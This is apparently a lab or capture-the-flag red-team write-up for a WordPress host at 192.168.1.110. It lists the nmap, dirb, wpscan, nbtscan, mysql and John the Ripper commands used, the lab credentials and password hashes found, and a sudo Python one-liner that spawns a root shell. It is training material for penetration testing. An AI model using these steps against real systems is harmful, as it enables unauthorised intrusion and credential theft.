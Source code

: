 **Red Team Assessment (Target 1)**

**1. Scanning**

1. Run An Initial Nmap Scan

Command: nmap -sT -A -p- -Pn -T4 --reason -oA host-1-scan 192.168.1.110

<src img= "https://github.com/SundownRider/Final-Project/blob/main/Images/Red%20Team/Red_1.png" width=50% height=50%>

**2. Enumeration**

2.1 Enumerating SSH (Port 22)

2.1.1 Enumerating The SSH Package Version

![Red_3.png](file:///C:/Users/drewa/.config/joplin-desktop/resources/de827ed25c3341b899612c7fcd239975.png)

2.1.2 Enumerating The SSH Key Fingerprint

![Red_2.png](file:///C:/Users/drewa/.config/joplin-desktop/resources/76888bde077946a9a4686513c17b309e.png)

2.2 Enumerating HTTP (Port 80)

2.2.1 Enumerating Hidden Subdirectories

Command: dirb http://192.168.1.110

![Red_4.png](file:///C:/Users/drewa/.config/joplin-desktop/resources/c0ee8a91870f4e17b0569c7859107c3e.png)

2.2.2 Enumerating Wordpress Files And Version

Command: wpscan --url http://192.168.1.110/wordpress

![Red_8.png](file:///C:/Users/drewa/.config/joplin-desktop/resources/a495f3387dfc45aa824344bdb1fcb1ef.png)

2.2.3 Enumerating Wordpress Users

Command: wpscan [http://192.168.1.110/wordpress/](http://192.168.1.110) --enumerate u

![Red_9.png](file:///C:/Users/drewa/.config/joplin-desktop/resources/90315a92b0bf451ea8e6ccad57c13a2c.png)

2.3 Enumerating NetBIOS (Port 139)

2.3.1 Enumerating The NetBIOS Hostname

Command: nbtscan 192.168.1.110

![Red_5.png](file:///C:/Users/drewa/.config/joplin-desktop/resources/f2dab635295a43e391a71cc863b3aa18.png)

2.4 Enumerating SMB (Port 445)

2.4.1 Enumerating SMB Shares

![Red_6.png](file:///C:/Users/drewa/.config/joplin-desktop/resources/4503e3b2521b49d29e7bde803285e47d.png)

Enumeration Summary

1. Target OS - Linux (Debian)

2. SSH Version - Open SSH 6.7

3. Wordpress Version - Wordpress 4.8.18

4. Wordpress Users - Michael, Steven

5. NetBios Hostname - TARGET1

6. SMB Version - Samba 4.2.14

**3. Exploitation**

3.1 Log Into The Machine Using The Weak Credentials For The User Michael

Credentials - michael:michael

![Red_10.png](file:///C:/Users/drewa/.config/joplin-desktop/resources/cc9a3ad16229476b899021a3afa113b9.png)

**Flag 1**

Location: /var/www/html

![Flag_1.png](file:///C:/Users/drewa/.config/joplin-desktop/resources/e44ca6edc19b4a50b67088fb788acfb2.png)

**Flag 2**

Location: /var/www

![Flag_2.png](file:///C:/Users/drewa/.config/joplin-desktop/resources/ec75782c607844e38fce6d7e09594d93.png)

3.2 Enumerate The Apache Web Root

Web Root: /var/www/html

![Flag_4.png](file:///C:/Users/drewa/.config/joplin-desktop/resources/c34bd380a43a4ae8a42f1724cbb9b79f.png)

3.3 Enumerate The Configuration File

![Flag_3.png](file:///C:/Users/drewa/.config/joplin-desktop/resources/c6ac828335fa49ccbfc6b741c7ec0fc7.png)

Credentials Found - root:R@v3nSecurity

3.4 Connect To The MySQL Database

Command: mysql -uroot -pR@v3nSecurity

![MySQL_1.png](file:///C:/Users/drewa/.config/joplin-desktop/resources/a95ed68307494f59b9983beea29c21d1.png)

3.5 Enumerate The Wordpress Database

![MySQL_2.png](file:///C:/Users/drewa/.config/joplin-desktop/resources/d2aaa38436664b3ab253f6599d3eb0d5.png)

Hashes Found:

michael:$P$BjRvZQ.VQcGZ1DeiKToCQd.cPw5XCe0

steven:$P$BkJVD9jsxx/loJoqNsURgHiaB23j7W/

**Flag 3**

Location: Wordpress Database -> Wordpress Posts Table

![Flag_3.png](file:///C:/Users/drewa/.config/joplin-desktop/resources/649cb8d04c7f4f57a2159641c08a8c75.png)

3.6 Crack Stevens Password Hash Using John The Ripper

Command: john --wordlist /usr/share/wordlists/rockyou.txt hashes.txt

![John_1.png](file:///C:/Users/drewa/.config/joplin-desktop/resources/8afab7a6979746e48178477bbc3a7cbf.png)

Credentials Found - steven:pink84

3.7 Log Into The Machine Using The Found Credentials

![John_2.png](file:///C:/Users/drewa/.config/joplin-desktop/resources/8727e03a5d6947bf846804225ccadf6b.png)

**4. Local Enumeration**

4.1 Check Sudo Privileges On The Machine

Command: sudo -l

![John_3.png](file:///C:/Users/drewa/.config/joplin-desktop/resources/b796820f0ce04d47aaef0cf3d1d4b161.png)

4.2 Check GTFO Bins For A Python Sudo Exploit

![John_4.png](file:///C:/Users/drewa/.config/joplin-desktop/resources/568ce1b832cb4118902596f3d73ca30a.png)

**5. Privilege Escalation**

5.1 Spawn The System Shell As the Root User

Command: sudo python -c 'import os; os.system("/bin/sh")'

![Root_1.png](file:///C:/Users/drewa/.config/joplin-desktop/resources/7c1ce811b923431ea44a28c86d3e8a2b.png)

**Flag 4**

Location: /root
